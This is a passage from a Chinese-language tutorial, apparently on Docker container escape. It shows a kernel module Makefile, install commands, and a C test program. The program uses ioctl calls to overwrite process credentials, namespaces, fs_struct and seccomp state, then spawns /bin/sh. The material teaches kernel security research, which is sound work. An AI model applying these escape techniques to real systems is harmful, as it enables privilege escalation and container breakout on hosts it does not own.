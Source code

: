     MODULE_LICENSE("GPL");
    MODULE_AUTHOR("bling");
    MODULE_DESCRIPTION("testdriver");
    ```

    Makefile文件如下：

    ```css
    KDIR := /lib/modules/$(shell uname -r)/build
    obj-m += hello.o
    
    all:
    make -C $(KDIR) M=$(shell pwd) modules
    clean:
    make -C $(KDIR) M=$(shell pwd) clean
    ```

    编译并安装到系统中：

    ```bash
    make
    sudo insmod hello.ko
    ```

### 7.4 测试程序

* 测试程序源码如下：

    ```c
    // test.c
    #include <stdio.h>
    
    int main(){
    char buf[100];
    printf("pid: %d\n",getpid());
    
    int fd = open("/dev/hellodev",2);
    if(fd <= 0){
        printf("fd: %d error, %d \n",fd, errno);
        exit(-1);
    }
        
        /* 组合不同的ioctl分支来调试 */
        ioctl(fd, 0x1000, 0);   // 更改当前进程 cred
        // ioctl(fd, 0x1001, 0);  // 更改当前进程 fs_struct，使其指向 host pid-1 的 fs_struct
        // ioctl(fd, 0x1002, 0);  // 更改 Docker pid-1 的 nsproxy 指向 init_nsproxy
        // ioctl(fd, 0x1003, 0);  // 更改当前进程 pid namespace 的 level 值，改成0
        // ioctl(fd, 0x1004, 0);  // 更改当前进程 seccomp 的开关，改成关闭状态
        // ioctl(fd, 0x1005, 0);  // 更改父进程的 cred
    
        char *args[] = {"/bin/sh", NULL};
        execve("/bin/sh", args, NULL);
    }
    ```

* 编译

